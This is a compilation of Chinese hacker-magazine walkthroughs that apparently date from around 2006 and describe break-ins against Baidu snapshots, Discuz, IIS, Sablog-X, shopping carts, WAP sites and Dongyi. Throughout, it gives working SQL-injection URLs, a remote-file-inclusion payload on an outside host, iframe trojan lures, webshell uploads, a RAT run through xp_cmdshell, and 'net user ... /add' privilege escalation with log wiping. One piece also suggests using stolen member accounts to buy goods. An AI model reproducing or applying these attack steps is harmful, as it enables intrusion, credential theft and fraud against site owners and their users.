- 1. 如何才能让自己的网页被加入快照呢？

如果我们在某个网页中已经写入了挂马语句，但是却不能从百度中搜索到这个网页，自然也就无从生成百度快照链接进行攻击了。因此，进行攻击前先要将自己的网页加入百度搜索引擎中。方法很多了，比如在热门的站点中进行回复挂马，提高网页的访问量，最直接的方法就是主动出击，提交百度搜索添加申请，申请免费加入搜索引擎。打开网页“http://www.baidu.com/search/url_submit.html”。

在中间的输入框中输入网站的地址，例如加入上面我们评论新浪新闻的网址（图4），再输入验证码，点击“提交”即可（图5）。一般百度在48小时内就会使用邮件答复你，如果申请成功的话，就可以通过搜索引擎搜索到评论的网址了。


### 2．如何让网址更“可信”？

虽然我们发送的百度快照链接网址确实是指向百度的，但是链接中一大串URL解码字符难免让一些用户心生疑惑，因此最好将快照链接地址进行一下修改。文中以百度快照链接为例，说明可删除或保留的参数，并指出“&b=0&a=24”不可删除，否则会导致参数失效。进一步还提到，若链接中“%26”不能转换为“&”，否则快照会自动跳转到真实网页地址。这是因为快照地址中的“&”用于指定快照参数，而不是作为原网页地址解析符。

### 3．让百度直接挂马

上面的两个例子，仅仅是百度快照应用中的被动方式，也就是说要别人到发布挂马代码的地址点击，才能达到攻击效果。要是别人不去点击我们发布的快照链接呢？那就直接攻击，诱使别人搜索出结果时，不是点击正常打开网页方式，而是点击“百度快照”链接！怎么才能让别人主动打开百度快照呢？这就必须要利用到一些社会工程学。正如上文在上期文章开篇中提到的，为了查看怎么获得免费QB，而原网页又被删除了，所以不得不点击查看快照。

它吸引人的话题，当然其中还少不了挂马代码！当网页被百度纳入快照之后，就可以删除原来的网页了。这时候别人通过搜索引擎找到你的网页，直接点击是打不开的，但是又想查看内容，怎么办？他们就只有点击百度网页快照，这样鱼儿也就上钩了！

### 八、进一步扩大漏洞，检测同类搜索引擎

上面的过程中，我详细讲解了如何发现并利用百度的漏洞，正如发现游戏平台漏洞一样，一个漏洞可以揪出一大堆漏洞。黑客的思维一定要发展，从百度快照漏洞我们是否可以揪出其它的漏洞呢？我分别对新浪、TOM、中搜等几个大型的搜索网站进行了检测，测试结果如下。

### 1．自动跳转的TOM

在TOM快照中，如果网页中包含有“<iframe src='http://****'></iframe>”的挂马语句，那么TOM快照并不会真正打开这个快照网页，而是在打开快照的过程中会自动跳转到真实的网页中去。也就是说，虽然快照中无法执行代码，但是我们可以通过自动跳转来实现挂马。文中给出了构造示例与快照链接参数示例，并说明当接收者点击快照链接时，会因包含<IFRAME>语句而自动跳转至真实网页地址，从而中招。


同样的，也可以对TOM快照地址进行一下简化。文中指出，TOM快照利用起来有些不太可信，因为快照链接地址中为IP地址，容易让不熟悉TOM快照的人怀疑其可靠性。另外，要将木马网页纳入TOM搜索，可在指定页面进行申请。

### 2．雅虎与新浪

对雅虎搜索与新浪爱问IASK搜索进行测试后发现，这两个搜索引擎表现较好，基本上没有可直接利用的快照漏洞；在快照网页中Javascript语句无法执行。不过文中也提到新浪快照中存在“您可以尝试打开无javascript的快照”的提示，但挂马语句仍然无法执行（图7）。

## 一个人的战争


图7


图8

### 3．中华搜索网与21CN

中华网的搜索引擎（http://sou.china.com/）也是我常用的一个搜索网站，但是在中华搜索网中依然也存在这样的漏洞。更令人恐怖的是，该站点中直接就存在着搜索挂马漏洞（图8），不必进行快照，将搜索结果链接发送，即可达到挂马的目的！

在21CN搜索引擎（http://search.21cn.com/）中，快照网页中的跨站挂马语句也可以执行，而且在快照页面中没有提示已执行了Javascript语句（图9）。跨站链接可以简化为“http://search.21cn.com/cache.php?url=...” 。

### 4．网易、Google与搜狗

在网易中进行搜索，点击快照后发现竟然链接的是Google快照，不过Google快照中Javascript挂马语句是无法执行的，因此也没有利用价值。在搜狗的快照网页中也无法执行Javascript语句，因此在搜狗进行跨站挂马也失败。

### 5．其它搜索引擎

此外，我还测试了其它各类的搜索网站，比如MSN中文搜索、淘宝、8848搜索、BT搜索等，检测的结果发现许多搜索网站过滤不严格。只不过利用这些站点来进行跨站挂马攻击的话，由于搜索站点本身不是太出名，成功率也不会太高。不过大家有兴趣的话，大可以多进行一下测试。


图9

要防范百度快照类的跨站挂马攻击，很重要的一点就是不要随便点击打开别人发来的链接。即算你很肯定这是百度的链接，也不要轻易点击。另外，在使用各类搜索网站的快照功能时，最好点击使用“无Javascript”的快照网页。不过这个方法似乎也不太可靠，因为有些网页的“<Iframe>”语句还是执行了！如果不是太急需的资料，对于一些不明站点，那么还是最好不要再用快照网页吧！

## 再谈防火墙与免费上网

zeeman1989

对于always在06年第8期X档案的“菜鸟再谈look'n'stop免费上网”一文中所说的安装防火墙后仍然可以查询消费的问题，我终于找出了原因。原来计费和查询是通过客户端和计费主机间的协议完成的……（正文续）


## 许愿，让 Discuz! 论坛漏洞快实现吧！

职业欠钱

Discuz! 论坛是很安全的，可是用的人多了，也就不安全了。上一期我们才刚介绍了 Discuz! 论坛最新漏洞的利用，没想到很快又有新漏洞公布，这次出在插件“许愿池（wish.php）”。

我们通过百度搜索关键字：`inurl:wish.php discuz`，可以找到很多使用了许愿池插件的 Discuz! 论坛。点开目标后，往往会发现页面并不要求登录。

在第10期曾介绍过远程文件包含漏洞的利用方式，这类漏洞在国外网站入侵中非常流行。此次 Discuz! 的问题也属于远程文件包含漏洞。

```php
require $discuz_root.'./include/discuzcode.func.php';

// 可构造示例
http://url/wish.php?discuz_root=http://xdxf.net/phpinfo.txt?
```

> 关键词解释：PHP 文件包含漏洞。攻击者可通过可控变量让程序包含并执行外部文件，从而执行恶意代码。


把目标域名填入工具（如 `www.lei****.com`，不要加 `http://`），再设置路径（如站点是 `/bbs/` 结构则填写 `/bbs/`）。点击“上传”和“打开 shell”后，若返回404需更换目标；若出现密码输入框则输入 `lovely` 登录。


现在已经得到了 webshell，接下来应尽快修补 wish.php 的漏洞。由于该插件并非官方提供，只能手工处理。


```php
// 删除或修正以下风险包含
require $discuz_root.'./include/discuzcode.func.php';

// 文中给出的提醒示例
echo "<script>alert('职业欠钱提醒您\n不要随便黑人家的网站\n漏洞已经被你补上啦\n^_^')</script>";
```

## Windows 菜鸟最新入侵大法，IIS 写权限下手

在 IIS 的设置中，有一个选项是“写入”。很多菜鸟网管在一知半解的情况下都会把这个选项勾上，这样一来，任何人都可以“写”一个文件到该网站上。事实上，这个技术是非常老的东西了，不过最近小编才无意中在某牛人的 Blog 上看到广泛漏洞扫描的专用扫描工具，使得这个漏洞变得实用起来（严格地说，它不能称作漏洞，称为配置不当更为合适一些）。

下拉框中选择“PUT”，这时工具会自动弹出一个对话框让你浏览找到欲上传的文件，我用的是一个海阳顶端一句话木马服务端。单击“提交数据包”按钮，工具的下半部分会有详细的回应信息，看到“HTTP/1.1 201 Created”的字样就表示我们上传成功了！

> 注意！不可以直接上传 ASP 文件，建议使用 txt 格式。

首先，我们打开 IISPutScanner.exe，填入欲扫描的起止 IP，其他的默认不需要改动；单击“Scan”按钮就可以在这个网段自动寻找配置不当的主机了，如图1。


图1

因为我们现在上传的文件还是 txt 格式，要让它变成 webshell 还需要把“数据包格式”下拉框改为“MOVE”，然后再提交一次，如图3。出现“HTTP/1.1 204 No Content”则表示成功了，此时访问目标网站的 shell.asp，就会看到海阳顶端一句话木马。


图3

填起始 IP 还是有一点讲究的，如果你瞎填一个的话几乎都是个人 PC 的网段，那么开启 IIS 服务（80端口）的一定特少，扫半天可能也扫不到一个。小编一般是找一个访问量还不错的网站，比如 www.xdxf.net，ping 出它的 IP 地址后，比如 61.138.25.135，然后再把这个 IP 所在的 IP 段延伸一下，从 61.138.24.0 到 61.138.26.254，这样的 IP 段一般都比较活跃。

当你看到图1中选中的那个图标的时候就要恭喜你中奖了，我们换桂林老兵写的 IIS 写权限专用工具，如图2。


图2


图4


图5

在域名处填入目标 IP 地址，然后在左边的“数据包格式”打开海阳顶端一句话木马的客户端，我们填入对方的地址，如图4。单击“提交”就可以看到熟悉的海阳顶端木马登录界面了。或许我人品好吧，随便用FSO浏览器看了下该站的conn.asp，意外地发现它居然是用SA来连接SQL Server数据库的……

再上传了一只配置好了的灰鸽子，再用 `exec master..xp_cmdshell 'D:\www\huigezi.exe'` 执行，不一会儿就看到肉鸡上线了！经过测试，这个方法可以在短时间内获得大量webshell……


图6

> ### Sgili吧
> 关于IIS写权限的利用，其实早在《黑客X档案》2003年的某期上就曾经详细介绍过……直到前几日，突然无意中从网上淘到了老文章，经过群里全体小编的测试，效果棒极了……
>
> 到命令执行处输入 `net user` 发现zyqq这个用户确实添加上去了，这说明我们的权限是非常大的！于是用FSO文件浏览……

## 安全——网购物的一根软肋

曾云好

网趣购物系统（ACCESS）免费版是由 ASP + ACCESS + FSO + Jmail 构成的……这套系统和其他商务系统一样拥有强大的功能，可是安全问题却比较严重，是该系统的一根软肋，时刻威胁着用户的利益。

目前使用这套系统的网站还比较多，可以通过“QQ：81447932”等一些关键字来查找。对于这套系统，倘若你没有注册成为会员，要利用它来入侵还是比较麻烦的……

```asp
rs.open "select * from wq_news where newsid='"&newsid&"'",conn,1,3
' 在直接取得参数后就进行数据库查询，未过滤
rs("viewcount")=rs("viewcount")+1
rs.update
```

我们可以得知它是存在注入漏洞的，如图1、图2。并且这个newsid参数是直接在URL地址栏内显示的，这样就大大地方便了工具入侵。


图1


图2

```asp
<title><%=webname%>—查看新闻</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<link href="inc/css.css" rel="stylesheet" type="text/css">
...
<%
  id=request.QueryString("id")
  set rs=server.CreateObject("adodb.recordset")
%>
```

## 一个人的战争

既然是商务WEB系统，自然是用来做生意的，那在线支付肯定是少不了的功能了。但是它的支付系统对用户输入的数据却没有得到过滤，从而出现了跨站漏洞，文件是send.asp，代码如下：

```asp
set rs=server.CreateObject("adodb.recordset")
rs.Open "select payid,payoin,payurl from wd.config",conn,1,3
MerchantID=rs("payid")
MerchantPostBackURL=rs("payurl")
...
V_rcvname=Request.Form("v_rcvname")
V_rcvadd=Request.Form("shouhuorendizhi")
V_rcvtel=Request.Form("shouhuorendianhua")
V_ordername=Request.Form("dinghuorenxingming")
MerchantOrderAmount=Request.Form("v_amount")
```

在取得这些数据后，系统就直接把数据发往银行的在线支付系统，而没有对其进行数据的安全和有效性方面的验证，从而出现了跨站漏洞，如图3、图4。


Gbook_w.asp是会员向管理员反馈信息的，可以有效地解决用户的问题，但同样也没有过滤参数，存在问题，代码如下：

```asp
set rs=server.CreateObject("adodb.recordset")
rs.open "select * from wd.feedback",conn,1,3
rs.addnew
rs("feedbacksubject")=trim(request("feedbacksubject"))
rs("feedbackcontent")=htmlencode2(trim(request("feedbackcontent")))
rs("feedbackusername")=trim(request("feedbackusername"))
rs("feedbackemail")=trim(request("feedbackemail"))
rs("feedbackip")=Request.ServerVariables("remote_addr")
rs.update
```

因为该功能在信息反馈后并不是让所有的人看，而是只给管理员看，所以在这里跨站就没什么意义了。利用这个文件我们可以用来挂管理员的马。我们可以在文本框中输入类似于下面的代码：

```html
<html>
<iframe src="你的木马地址" width=0 height=0></iframe>
<body>
<h1>google</h1>
<p><a href="http://www.google.com">打开</a></p>
</body>
</html>
```

如果管理员打开google的话，那么同时也就会打开我们的木马地址了。当然具体的利用中不要将google作为诱饵，应用一些具有诱惑性的东西来诱饵。Reg.asp文件是用户注册会员用的，我们都知道，一个系统里是不允许有存在两个相同用户名的账户的，所以我们在注册时肯定要先查询数据库看用户名是否已经注册过了，但是这里程序员却疏忽了，代码如下：

```asp
set rs=server.CreateObject("adodb.recordset")
rs.open "select * from [w_user] where useremail='"&trim(request("useremail"))&"' or username='"&trim(request("username"))&"'",conn,1,3
if rs.recordcount>0 then
  call usererr()
else
  ...
  response.write "<table>...用户注册失败...点击返回上一页...</table>"
end if
```

这里只查询用户名和E-Mail是否已经存在，如果存在就会出现注册失败的提示，如图5。


从上面的代码可以看出，用户注册时的用户名和邮箱没有过滤就查询了数据库，所以我们用WSockExpert把发往服务器的数据包截下来：

```http
POST /reg.asp?action=save HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*
Referer: http://www.dmaw.com/reg.asp?action=yes
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: www.dmaw.com
Content-Length: ...
Cookie: ASPSESSIONID...
username=...&useremail=...&userpassword=...
```

```php
zengyunhaoii=or ascii(word1,1)=zengyunha&question=s8&answer=DF&submit.x=18&submit.y=7
```

然后把 username 改成“zengyunlia and 1=2”后使用 NC 提交，可以用修改数据包来达到注入的目的。这样和手工注入没什么很大的区别，只是修改数据包比较麻烦一点而已。

如今每个 WEB 系统都有一个搜索功能，网趣购物提供了强大的搜索功能，同时也出现了较为严重的漏洞，因为其没有对用户输入搜索的数据进行有效的过滤，代码如下：

```asp
if request("search")<>"" then
  keyword=request.form("keyword")
  if keyword<>"" then
    dim path,myfileobject,mytextfile
    path=Server.MapPath(shopurl)
    set MyFileObject=Server.CreateObject("Scripting.FileSystemObject")
    set MyTextFile=MyFileObject.CreateTextFile(path)
    MyTextFile.WriteLine(keyword)
  end if
end if
```

```asp
if flage="" then
  sql2="searchkey='"&searchkey&"'&anclassid='"&anclassid
  select case request("anclassid")
    case "0"
      sql1=" bookname like '%"&searchkey&"%' "
    case else
      sql1=" bookname like '%"&searchkey&"%' and anclassid='"&request("anclassid")&"' "
  end select
end if
```

可以很清楚地看到，系统是直接得到文本框后的数据就直接查询了数据库，而没有进行任何的检测。所以这里输入类似于 `%’ and (select top 1 asc(mid(表名,1,1)) from 用户名=ASCII值 and '%` 这样的代码来达到查询数据库中管理员密码的目的。

如果是没有注册会员的情况下，系统的安全性还是比较好的，只出现了后面两个鸡肋级的漏洞，其它的地方都过滤得比较干净；但却疏忽了注册成会员后系统所面临的安全问题，所以才出现了严重的注入和跨站漏洞。

## 安全天使代安全

### —— Sablog-X 漏洞利用

ZJ1244 小葵（曾佳）

Sablog-X 是一个采用 PHP 和 MySQL 构建的博客系统，它的作者 4ngel 早期也曾是黑客 X 档案的作者，曾经写过很多优秀的稿件，是研究漏洞的高手。因此 4ngel 推出 SaBlog 后安全界人士少有敢挖它程序漏洞的，不过最近 4ngel 似乎生活得比较滋润，研究漏洞的时间也少了。

有朋友在他的 Blog 里通知存在漏洞（估计是因为该缺陷只在 PHP5 环境下可利用，怀疑他是用 PHP4 测试的）。漏洞的原理和第 10 期黑客 X 档案上介绍的 Discuz! 论坛漏洞基本上一样，本文中提到的漏洞发生在 post.php 文件的第 379 行左右。

### 一、漏洞简介

- 1. 数据库的默认表名前缀必须是默认的 `sablog`，否则利用可能失败。
- 2. 该漏洞对 Web 服务程序影响不大（IIS/Apache 均可），但 PHP 版本必须是 5.0 以上，否则也会失败。

### 二、漏洞利用

使用 baidu 等搜索引擎搜索关键字“Powered by SaBlog-X”就可以找到许多目标，如图 1。我们以 http://sizuka.**.la/ 为例，查看发贴人的地方，找到用户名（如 sizuka，如图 2）。打开漏洞利用工具，把 sablog 的地址写到“目标主机”处，然后继续进行注入。


后在“指定用户名”里填写 blog 的管理员，我们填入 sizuka，单击“发送”按钮，很快便得到了他的 MD5 密码散列了，如图 3。然后我们就可以去 http://www.cmd5.com/ 在线查询这个 MD5 密码了，人品比较好的话，就可以把密码查出来，如图 4。


接下来我们就要获得 webshell 了，先输入 http://sizuka.**.la/admin/admincp.php 进入后台，然后来到“模板管理”，如图 5。随便选择一个进行编辑，我选择的是 rss，把模板内容里开头的 print 改为任意字符，比如 zzzz，然后保存提交，如图 6。


此时，我们点击 blog 首页的 rss，发现什么了？物理路径出来了，如图 7（为安全起见，隐去了真实地址），假设暴出来的路径是 d:\www\sablog\templates\default\rss.htm，那我们就可以利用 mysql 的写出功能来获得 webshell 了。在工具的下拉框中选择“保存文件”，“保存内容”当然就写一句话木马了，“保存路径”就写 d:\www\sablog\templates\default\test.php，然后单击发送，如图 8。我们使用客户端尝试访问这个文件，成功地得到了 Webshell，如图 9。接下来的事情不用我说了吧，大家各显神通吧！


职业欠钱：收到文亮后，我也很有兴致地测试了一下这个漏洞，发现了一个更简单的获得 webshell 的方法。在编辑模板的时候，细心的读者会发现其实那些 htm 文件里都是些 php 代码，那些代码实际上被包含以后就可以当做 php 木马来使用了，原文件的格式大多是这样的：

```php
<!--<?php
print <<<EOT
-->
HTML代码
<!--
EOT;
?>
```

小龚在里面写了 php 的一句话木马后却发现没有返回想要的结果，实际上是被“<!-- -->”给注释掉了而已。把这些“<!--”和“-->”都删除掉，再在里面写入“phpinfo();”这类的 PHP 代码，保存后访问 index.php 就会看到代码已经成功执行了，如图 10、图 11。


（文章中涉及到的 Sablog-X 漏洞利用工具和 php 一句话木马连接器已收录到光盘）

## 菜鸟Vstart跨站

### 肉鸡糊糊来

荒芜

几乎每期的黑客 X 档案，都会有一至两篇关于跨站漏洞的入侵文章。本人是超级菜鸟，总想找个漏洞练练手，好让自己在黑客的大家庭里快点成长。呵呵，看了这么多期杂志，要学会为我所用嘛！

Vstart，相信广大菜们已经很熟悉了。作为一款绿色环保、占用超低内存的“黑客工具箱”，是咱们必备的超级武器（9期光盘有收录），超赞！


不知道大家有没有登录过 Vstart 网站的留言本，它的作用主要是让使用者们向作者反馈 BUG 或收集建议的，因此该留言本的访问量相当大。而我今天要选中的跨站目标就是该留言本了……

由于是作测试，而且本人又没多少技术手段，若直接拿 Vstart 网站开刀，弄得留言本面目全非的话，必遭 Vstart 爱好者的砸骂。所以，我只是下载该留言本的源代码，在本地架设 IIS 来测试跨站……

好了，架设好留言本后登录看看。首页相当美观，是我喜欢的风格，点击留言，进入留言页面，在所能够填代码的地方均写入 `<script>alert(1)</script>`（提交后会弹出错误提示框）……查看源文件后发现“<”和“>”被替换成了“&lt;”和“&gt;”，如图2。

再查看 check.asp 代码，原来是程序员使用了 Server 对象的 HTMLEncode 方法把我输入的代码进行了重新编码，然后把这些编码过的代码显示到浏览器中。这样一来，不管我输入什么样的跨站代码，服务器都不会去解释和执行。看来，最基本的跨站方法失败了。


不过现在还有 img 跨站漏洞没有尝试。虽然此漏洞最初始于动网，但是我想 ASP 是相通的，动网露出的漏洞并不一定是它特有的专利，其它 ASP 程序说不定也同样存在这方面的漏洞。想到就做，于是随便输入用户名，点“添加图片”标签，在 URL 里写入 `javascript:alert()`，点确定后发现在留言内容框里显示的不是 `` 的跨站代码，而是 `[nl]javascript:alert() [n2]javascript:alert() [m3]`，如图3。

真是晕倒！难道 Vstart 已经修补了这个让他心乐翻天的 img 跨站漏洞？还是该程序员想得比动网的程序员还周到，根本就没有这个漏洞？我不得而知。

怀着失望的心情点了提交，哈哈！居然让我非常意外地看到弹出了一个对话框，如图4。看来，跨站大有希望了。

```javascript
javascript:open('http://127.0.0.1/index.htm','','width=0,height=0')
```

现在，让咱们进入高潮吧。再点留言，在 URL 输入以上代码，如图5。

跨站成功！访问主页就会看到弹出了一个页面，打开了 `http://127.0.0.1/index.htm`。如果把这个地址换成我们配置好的网页木马，浏览网页的人就会中招了！好了，菜鸟 Vstart 跨站之行就到这儿……

由于 Vstart 提供留言本源代码下载，相信有很多和我一样喜欢该留言本的站长在自己的网站上使用了该留言本。另外在测试过程中我注意到该留言本的数据库没有对管理员的密码进行加密处理而是明文存放的，只是数据库名加了“#”简单作了防下载处理……

### 编辑点评

这年头啊，人家提供个工具，咱们就会不自觉地去检测一下人家的网站安全性。好在作者职业道德比较好，仅仅是在自己的机器上搭建了测试平台进行实验而没有真正地去做损人的事情，值得鼓励，值得我们学习！……

## 手机也来玩入侵

科技在不断地进步，手机也越来越高科技了。现在小菜我就经常用手机浏览一些 WAP 站点，某日发现了一个 WAP 网站可以免费点歌而且双方都不收费……突然发现这个点歌系统的 URL 号非常有蹊跷，`asp?id=123456`。

真是职业习惯，想也没想就立即在地址后面加了一个“and 1=1”提交，返回正常。再来“and 1=2”没有反应……后来找了一个模拟手机上网的软件 WinWap，再去浏览网页，发现整个网站到处都是漏洞。

其实现在有很多的 Wap 网站都存在着注入漏洞，只不过大家都没去注意。我到 hao123 的推荐栏随便找到一个 Wap 网址，在 WinWap 中浏览，正确显示；加上“and 1=1”浏览返回正常；加入“and 1=2”，浏览器提示错误，点击“确定”后它说这不是一个有 WML 内容的文件（图3）。


其余的就和普通的 SQL 注入差不多了，打开 Domain 3.5，选择 SQL 注入，填入 URL 单击“开始检测”，很快就能拿到对方的用户名和密码，如图4。拿回到 IE 里，输入 admin/index.asp 可以找到后台并登录上去，如图5（这个后台不是一个 WML 文件，在 WinWap 中不能正确显示，要在 IE 中浏览）。

就这个系统居然要卖 3000 元，够黑的！看界面很熟悉，应该是某个常见的系统修改的。在上传图片的地方上传一个免杀的 asp 木马，提示说文件类型不正确，于是试了试把木马的后缀改成 asa 再在输入框的最后面加一个空格，上传成功了，如图6。

提权就不说了，以前文章介绍得挺多的。Wap 网站目前的安全状况实在是不容乐观，希望大家不要随便更改人家的主页就好了。


### 编辑点评

随着智能手机的普及，手机 WAP 网站日益增多。可是这些网站平时我们用 IE 浏览会弹出一个下载对话框，所以很少有人会注意到这些网站的漏洞。前几个月 Discuz! 爆出的 WAP 跨站漏洞就是典型的例子，可以想象得到，在不久的将来，WAP 网站上的安全攻防将是黑客们研究的主要方向之一。另外，有过此文小结，特意从丛林的手机登录了该网站并输入“and 1=1”和“and 1=2”时的情况试给大家，如图7、图8。


> （文中涉及到的 Domain 3.5 和 WinWap 已收录到光盘）

### 个性系统时间

想不想在系统时间的位置显示自己的名字或者是个性的话呢？如图1。先在“控制面板”里找到“区域和语言选项”，单击“区域选项”中的“自定义”，切换到“时间”选项卡中，把时间格式改为 `tt h:mm:ss`，然后把“上午”和“下午”都改成喜欢的文字，如图2，确定就可以了。


## 反木马了网站的一次入侵

keloker（小K）

如今的骗子越来越多，骗子网站也越来越多！前几天，我同学就碰到了一个骗子网站，被骗去了100多元！他这几天正找我帮他黑了那骗子站呢！今天给大家讲一下我反击骗子站的思路和入侵过程！骗子站！我来也！

打开骗子站一看是 PHP 的我就头晕了！因为对 PHP 并没什么研究，试了一些简单的注入漏洞后，发现没啥戏就闪了！当我正准备放弃的时候，突然想到了比较时兴的旁注！利用明小子的 DOMAIN3.5 检查出了这个骗子网站的 IP 附属网站！


从图中可以看出来服务器上一共有 26 个站点，一定会有好入侵的站的！简单地对这些网站挨个进行注入检测，发现有注入漏洞的网站还是很多的。随便挑一个站点进行注入，运气很好，工具跑出来的后台密码还没经过加密。


再利用 DOMAIN 扫描后台也很快地搜索出来了，可当我利用注入得到的密码登录后台时，却提示了密码不正确，如图2。突然想到了之前看到的一篇文章，也是说得到了密码无法登入，说是经过加密的。


我又想到利用弱口令试试，如“admin”做用户名和密码，没想到让我进去了！如图3。正在想如何得到 WEBSHELL 的时候，无意间看到了数据备份功能！我立即将备份的 ASP 小马后缀改成 JPG，上传后找出它的相对路径是“Database/keloker.jpg”，通过备份功能将它备份为 sds.asp。


终于得到了 WEBSHELL！先庆贺下。接下来要查看我的 ASP 木马有什么权限，如果低的话还需要再进行一系列提权！首先我们浏览了 C 盘，竟然可以看到！如图6。


看来管理员是个“弱智”！这个服务器是 2003 的，还开了端口。随后我又打开了 D 盘、E 盘，只是没有执行权限。接下来就是提权！首先扫描了端口，发现开了3389。好兆头！本想通过 CMD 命令来添加用户却失败了，如图7。


这时我突然想到了前面在浏览 C:\Progra~1 盘时发现了 Serv-U！嘿嘿！大家想到了什么？利用这个提权吧！拿出前几天下载的 GoldSun 公布的 ASP 版 Serv-U 提权工具，如图8。


## 一个人的战争

因为打开了3389端口，我们只需要通过这个提权工具添加一个用户就可以登录了。在命令处把用户名和密码改下，变成：`cmd /c net user keloker love /add & net localgroup administrators keloker /add`，后提交就可以看到开始执行了！打开3389连上去，找到的用户是keloker，密码love登录，如图9。（因为那个工具不管成功还是失败都会显示命令执行成功，所以必须自己事后验证到底是假成功还是真成功。）接下来就是查找这个骗子网站所在的目录，然后你想怎么做就怎么做了！报仇以后把日志删了以擦干净“脚印”，免得警察叔叔请偶去喝咖啡……本次入侵并没什么新的技术，都是一些老的漏洞和管理员的疏忽！在此提醒各位在网上不要贪小便宜，要买东西一定要去正规网站！小K愿X档案越办越好！


> “本次入侵并没有什么技术含量”是很多作者都喜欢写的一句套话……我们学技术是为了保护自己和惩罚坏人，所以在这里我呼吁作者们写文章的时候多考虑一下文章的故事性情节，或者让入侵变得有意思一些。（本文涉及到的ASP站长助手和Goldsun的ASP版Serv-U提权工具已经收录到光盘。）

## 绝对国内免费空间之php注入

非零解 & Adly [S.Y.C]

最近，心血来潮，突然也想学一下破解，就在baidu里开始搜索网络书店，看看有没有什么便宜的书，就这样来到了一个php网站。前些日子看了心的文章，也学到了一些关于php注入，现在正好拿来练练手。

我在浏览器的地址栏提交 `http://www.****.cn/book.php?id=857 and 1=1`，返回正常；继续提交 `http://www.****.cn/book.php?id=857 and 1=2`，结果返回不正常，出现了错误提示：


```text
Warning: mysql_fetch_array(), supplied argument is not a valid MySQL result resource in /home/www/****/cn/www.****/listdetail.php on line 27 ... line 30
```

从错误提示中我们可以知道对方使用的数据库是mysql，使用的系统基本上应该是UNIX/Linux。在猜解前，我试着找了一下对方的后台，结果没有找到，于是就把目标锁定在网站的图书和会员身上了。再进行如下提交 `http://www.****.cn/book.php?id=857 and ord(mid(version(),1,1))>51/*`，结果返回正常。因为4的ASCII码对应的是51，所以通过上边的提交，我判断对方的mysql数据库应该是大于4的版本，那么就应该支持union查询。先查一下字段，提交 `http://www.****.cn/book.php?id=857 order by 5/*`，返回不正常，说明字段应该小于5。继续提交……

`http://www.*****.cn/book.php?id=857 order by 3/*`，返回正常，说明字段为3。现在使用union进行查询，`http://www.*****.cn/book.php?id=857 union select 1,2,3/*`，在图书封面下面出现了一个2，如图1。

如果我们提交mysql函数的话，可以得到数据库的相关信息，比如可以查看数据库的名称。把2替换成database()进行提交就可以得到数据库的名称了，`http://www.*****.cn/book.php?id=857 union select 1,database(),3/*`，如图2，得到数据库为bookshop。使用version()函数，可以查到数据库的版本，提交 `http://www.*****.cn/book.php?id=857%20union%20select%201,version(),3/*`，可以知道数据库的版本是4.0.27。

来猜一下保存会员的帐号与密码的表名，提交 `http://www.*****.cn/book.php?id=857%20union%20select%201,2,3%20from%20user/*`，结果返回的页面与提交 `http://www.*****.cn/book.php?id=857 union select 1,2,3/*` 一样，说明表名是user。现在开始猜会员的帐号与密码了，来看登录页面的源文件：


```html
<td height="25" align="center">用户名 <input name="username" type="text" class="input_text" size="8">
<input name="comeurl" type="hidden" value="">
</td>
...
<td height="25" align="center">密码 <input name="userpassword" type="password" class="input_text" size="8"></td>
```

在登录的地方，把用户名使用username，密码使用userpassword进行传递，然后再验证用户名与密码是否正确。在一般情况下，网站的开发人员会把字段名和表单的名称取成一样的。我们看看有没有username，进行如下的提交 `http://www.*****.cn/book.php?id=857%20union%20select%201,username,3%20from%20user/*`，好久都还没显示出来，直觉告诉我们成功了，而且会员数比较大。大概过了5分钟，网页显示出来了，用户名自然也给暴出来了，如图3。那么userpassword肯定是对应的用户密码，进行提交 `http://www.*****.cn/book.php?id=857%20union%20select%201,userpassword,3%20from%20user/*`，我的电脑差点死机了，等了大约10分钟，终于得到了用户的密码，如图4。

会员数据很多哦，这些密码都是经过md5加密的，我们总不至于一个一个地把这些md5密码破解，然后再去登录拿书吧！在网页的下面看了有个程序设计：iceheart，我们来看看有没有叫iceheart的用户，有的话对方肯定是管理员。

先猜一下有没有userid这个字段，提交 `http://www.*****.cn/book.php?id=857%20union%20select%201,userid,3%20from%20user/*`，出现了类似图4的页面。既然iceheart是管理员，那么他的userid就极可能为1。提交 `http://www.*****.cn/book.php?id=857%20union%20select%201,username,3%20from%20user%20where%20userid=1/*`，出现如图5所示的页面。

再来提交，`http://www.*****.cn/book.php?id=857%20union%20select%201,userpassword,3%20from%20user%20where%20userid=1/*`，成功得到了iceheart的密码。然后就是到在线的MD5密码破解网站破解这个密码了，我推荐使用www.cmd5.com。得到密码后，我使用iceheart帐号登录进去，看到里面会员的汇款，最高的有1500元，如图6。


- 6. 用户的真实姓名、家庭住址、联系电话都在里面，最主要的是有将近1000个会员，是不是感觉发了？看谁的钱多就用谁的钱去订书吧，等到我们想要的图书邮寄过来后再用管理员的帐号删除购书的信息即可，不过我还是很怕怕的！

虽然我们使用iceheart账户登录进去后没多大权限，但是却可以在收货信息处插入一句话木马，然后再上传一个大的php木马，就可以很轻易地得到对方的webshell了。后来，我通知了网站的管理员，相信当大家看到这篇文章的时候，该网站的漏洞已经修复了。

## 动易2006 SP4早期漏洞研究和利用

转眼就大四了，一直忙着复习考研，连动易2006出了新的漏洞了还不知道……官方还发布了补丁，赶紧下了一套来分析。

可以利用别的更好的关键字来搜索目标，需要注意的是.gov的域名是政府网站……入侵政府网站可是犯罪。

### 一、漏洞介绍

> 影响版本：所有版本（包括免疫版、商业SQL版及ACCESS版）

漏洞描述：主要通过 `NewComment.asp` 存在的注入漏洞，可读取管理员权限并进一步上传木马程序，进而控制整站系统。


### 二、漏洞分析

既然补丁已经公布，直接看到存在漏洞的地方，代码如下：

```asp
ModuleName = Trim(request("ModuleName"))
...
sqlComment = "select top " & Num & " C.* from PE_Comment C ..."
```

`ModuleName` 直接带入SQL语句中，形成注入点；文中以SQL版本作为实例讲解。

```text
http://www.xxx.com/NewComment.asp?num=1&ChannelID=1&ClassID=1&ModuleName=soft' and user>0
```

上述语句会报语法错误，需要将 `user>0` 放入where条件中再提交。

```text
http://www.xxx.com/NewComment.asp?num=1&ChannelID=1&ClassID=1&ModuleName=soft')A on C.infoID=A.softID) where 1=1 and user>0--
```

> PS：文中补充说明了 `soft' and user>0` 变体及 `left join` 语法细节，强调实战中可灵活调整。

### 三、工具利用

